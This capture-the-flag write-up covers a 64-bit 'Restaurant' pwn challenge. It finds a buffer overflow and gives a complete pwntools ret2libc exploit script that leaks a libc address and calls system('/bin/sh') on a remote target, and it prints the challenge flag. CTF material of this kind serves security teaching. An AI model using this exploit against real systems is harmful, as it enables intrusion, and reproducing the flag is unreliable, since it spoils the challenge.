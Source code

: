 # Restaurant
> Write-up author: vreshco
## DESCRIPTION:
Welcome to our Restaurant. Here, you can eat and drink as much as you want! Just don't overdo it..
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218115116-506eedf0-2fd5-4456-821b-2e840a5b4910.png)


2. Let's check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218115265-0417d28f-2401-4961-a53b-0b84149e075c.png)


3. Now we know, the **restaurant** is a 64 bit binary file and it's not stripped, let's check the binary's protections.

> VULN - NO CANARY FOUND, NO PIE.

![image](https://user-images.githubusercontent.com/70703371/218116059-7fc94767-9177-42f5-b2cd-66e4deba8b90.png)


4. Now let's decompile the binary using ghidra.
5. At the `fill()` function, looks like there's a bufferoverflow.

![image](https://user-images.githubusercontent.com/70703371/218119145-7fe380f3-fbfb-44a0-9c7f-876f5c90b093.png)


6. Let's get the offset of RIP first by get a segmentation fault with running the binary in gdb.
7. Enter 1024 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218121772-d33483b6-d7ee-4d9e-90b6-9216d265edc1.png)


8. Since there's no value leaked at the RIP, we can use the RSP offset.

> RESULT - 40

![image](https://user-images.githubusercontent.com/70703371/218122089-5186b81e-be34-4433-8d53-9745341c834d.png)


9. Well, notice that there's no interesting function to jump or flag function, then we given a libc library, hence the approach here is `ROP`.
10. The steps here, first we need to craft a `ROP exploit` so we can leak any library function's address.
11. Find the correct libc library used (in this case we don't need to, because we the library is given).
12. Calculate & set the ASLR base address of libc library used in the server.
13. ROP payload for system call bash.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)

exe = './restaurant'
libc_library = './libc.so.6'
elf = context.binary = ELF(exe, checksec=False)
libc = context.binary = ELF(libc_library, checksec=False)
context.log_level = 'debug'

sh = start()

offsetRsp = b'A' * 40

### 1ST PAYLOAD

rop = ROP(elf) 
rop.call(elf.plt['puts'], [next(elf.search(b''))])

rop.call(elf.plt['puts'], [elf.got['puts']])

# for stack alignment (must align to 16 bytes)
rop.call((rop.find_gadget(['ret']))[0]) 
#print(rop.dump()) # to see the alignment

# goes back to fill(), so we can setup our next ROP
rop.call(elf.sym['fill']) 

# combine into usable payload
ropGetlibcaslr_addr = offsetRsp + rop.chain()
log.info(rop.dump())

sh.sendlineafter(b'>', b'1')
# exploit the vuln to print out the ASLR addr of puts() for libc in the server
sh.sendlineafter(b'>', ropGetlibcaslr_addr) 

# ignore empty space printed to us
sh.recvuntil(b'\n')
# ignore the 1st line statement printed to use as is 
# by the program to tell us "Enjoy your <input value>" before reaching RET
sh.recvuntil(b'\n') 

# get the leaked address of ASLR puts()
leakedputsLibc = u64(sh.recvuntil(b'\n').strip().ljust(8, b'\x00'))
info('Server libc, puts() addr: %#x', leakedputsLibc)

serverLibcbase_addr = leakedputsLibc - libc.symbols['puts']
info('Server libc base addr: %#x', serverLibcbase_addr)

libc.address = serverLibcbase_addr

### 2ND PAYLOAD - craft sys call to /bin/sh

ropLibc = ROP(libc)
ropLibc.call((ropLibc.find_gadget(['ret']))[0]) # align stack (16 bytes)
ropLibc.call(libc.sym['system'], [next(libc.search(b'/bin/sh\x00'))])

# combine into usable payload
ropGetbash = offsetRsp + ropLibc.chain()
log.info(ropLibc.dump())

### GET SHELL
sh.sendlineafter(b'>', ropGetbash)
sh.interactive()
```

14. Run the script remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/218248357-633b42a1-5501-413e-ac46-7cedf555012d.png)


15. Got the flag!

## FLAG

```
HTB{r3turn_2_th3_r3st4ur4nt!}
```


